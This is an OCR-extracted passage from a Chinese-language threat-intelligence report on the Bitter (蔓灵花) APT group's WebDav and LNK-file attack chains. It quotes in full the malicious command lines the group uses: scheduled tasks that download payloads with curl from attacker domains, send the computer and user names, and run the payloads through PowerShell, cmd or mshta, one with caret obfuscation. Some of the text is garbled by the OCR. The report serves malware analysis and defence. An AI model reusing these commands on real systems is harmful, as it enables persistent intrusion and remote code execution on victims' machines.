Apache/2.4.59(Ubuntu)Serverat healthtipsart.comPort 80  

值得一提的是，我们在另一个使用WebDav的网站上发现了当受害者主机的ComputerNanme和UserName符合目标时，便会直接下载后续木马进行执行。  

<html><body><table><tr><td colspan="4">Q 不安全 kimfilippovision.com/directory/</td></tr><tr><td colspan="4">Indexof/directory</td></tr><tr><td></td><td>Name</td><td></td><td>LastmodifiedSizeDescription</td></tr><tr><td colspan="4">ParentDirectory</td></tr><tr><td>DESKTOP-FDB</td><td>Defence</td><td>2024-08-0308:46101</td><td></td></tr><tr><td>DESKTOP-FDE</td><td>Defence.txt2024-07-2607:50 128</td><td></td><td></td></tr><tr><td>DESKTOP-PGJ9</td><td>Bard.txt</td><td>2024-08-0308:45</td><td>8</td></tr></table></body></html>

DESKTOP-FDB6Defence.bt-记事本文件（编辑（E)格式（查看(帮助H)curl-oC:\programdata\CERTg.msihttps://bickrickneoservice.com/Z/CERTga.msimsiexec/iC:\programdata\CERTg.msi/qn/norestart  

### 6.LNK文件  

蔓灵花组织前期使用过LNK文件作为入口攻击载荷，并通常将LNK文件连同伪装内容打包，通过压缩包的形式通过钓鱼邮件展开攻击。近期捕获的LNK主要都是配合searchConnector-ms文档进行攻击，文件总体攻击流程变化不大，只在细节处有稍许变化。  

#### 类型一:  

这种类型的LNK文件利用256个空格填充命令行参数属性，这样就无法通过文件属性查看LNK文件的参数内容。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/6690482195d4883f29f42f0f18e5d4477b1621c9aefe3bc6391b4af7c778c3dd.jpg)  

当LNK文件执行后，首先会给出一个消息框，然后创建名为“WindowsJunkCleanerUpdateEngine”计划任务，该计划任务主要功能是使用cURL从远程地址下载后续的内容并通过Powershell执行。另外，还有部分LNK在后续载荷的执行方式选择了CMD，而不是Powershell。  

--headless ssh -o ProxyComman d=\"cmd /c timeout 5 & msg \* Eror Oxrt4ar: Incomplete File. & schtasks /create /tn Window sJunkCleanerUpdateEngine /f /sc minute /mo 19 /tr Il\"conhost --headless cmd /c curl --sslno-revoke -o - https://www.gdatesystems.com/mdhy/btja.php?kl=%computername%ll%user name%I powershell\lI"\" ."  

#### 类型二:  

这种类型的LNK文件除了使用空格填充命令行参数属性意外，攻击流程也发生了些许改变，该LNK文件首先下载了和计划任务相关的XML配置文件，然后再创建计划任务。  

--headless cmd /c curl -o %publi c%\\Documents\\config.xml demolaservices.com/mml.php & schtasks /create /tn MicrosoftE dgeUpdateEngine /xml %public%\\Documents\\config.xml & msg \* \"Incompatible Windows version. Try another Windows Pc.\""  

在下载的XML配置文件中，命令行和参数是以十六进制显示。解码之后显示如下，其主要功能是使用cURL下载保存一个名为“tmp.jpg”文件，然后使用cmd执行后续载荷。  

--headless cmd /c curl -o C:\Users\public\documents\tmp.jpg demolaservices.com/dxl.php? bb=%computername%_%username% & more C:\Users\public\documents\tmp.jpg I cmd  

#### 类型三:  

这种类型的膚LNK文件首先会将schtasks.exe銀复制到“C:\\Users\\Public\\Documents\\kip.exe”，然后创建一个计划任务，该计划任务会利用mshta执行一段VBS脚本，该VBS脚本的功能是从远端下载一个载荷，并利用CMD执行该载荷。  

start /min /c copy C:\lwindows ISystem32\\schtasks.exe C:\\Users\\Public\\Documents\\kip.exe & C:\\Users\\Public\\Doc uments\\kip.exe /create /tn IntelBlOsUpdates /f /sc minute /mo 15 /tr \"mshta vbscript:Exec ute(ll\"CreateObject(\l!"ll!"wScript.Shel/\ll"ll\").Run III"\l\"cmd /c curl -o C:\\Users\\pu blic\\documents\lsaw.ot ht^tp^s:^/^/^ww>w.cl^ai^r^sv^an^ie^c^|^u^b.com/c^aa^c.p^h^p? ca=%computername%_%username%^&more C:\\Users\\public\\documents\lsaw.ot ^| cmd Ill"\l\", 0, True:closell\")\"& start C:\lwindows\Isystem32\\notepad.exe & exit"  
